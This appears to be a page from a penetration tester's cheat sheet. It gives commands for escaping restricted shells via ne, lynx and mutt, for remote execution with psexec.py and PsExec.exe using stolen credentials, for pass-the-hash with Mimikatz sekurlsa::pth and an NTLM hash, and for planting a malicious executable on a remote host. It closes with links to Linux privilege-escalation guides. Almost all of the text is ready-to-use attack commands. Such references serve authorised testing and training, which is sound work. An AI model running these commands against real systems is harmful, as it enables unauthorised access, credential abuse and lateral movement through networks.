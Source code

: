 # export PATH=/bin:/usr/bin:/sbin:$PATH
# export SHELL=/bin/sh

From ne (nice editor):

Go to -> Prefs -> Load Prefs... <- Read Files

From lynx:

# lynx --editor=/usr/bin/vim <PAYLOAD>
# export EDITOR=/usr/bin/vim

From mutt:

Click !:

/bin/sh



# PSexec 

psexec.py user:password@192.168.1.2
psexec.py -hashes :54d99af9cebee2444c1684ac33dadb1e administrator@RHOST cmd.exe


PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password cmd.exe

Running PsExec with passing the hash:

By default, PsExec does not pass the hash by itself, it requires Windows Credential Editor or Mimikatz
sekurlsa::pth /user:user /domain:CORP /ntlm:8846f7eaee8fb117ad06bdd830b7586c
PsExec.exe /accepteula \\192.168.1.2 cmd.exe

Running PsExec by uploading malicious executable:

This will continue the PsExec session through named pipe, and will only terminate once the process is terminated. Additionally this -c parameter will manually cleanup the executable.
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -c update.exe

This will kill the PsExec session and leave the malicious executable on disk
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -d update.exe



# Linux Privlege ESCALATION

https://guif.re/linuxeop
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
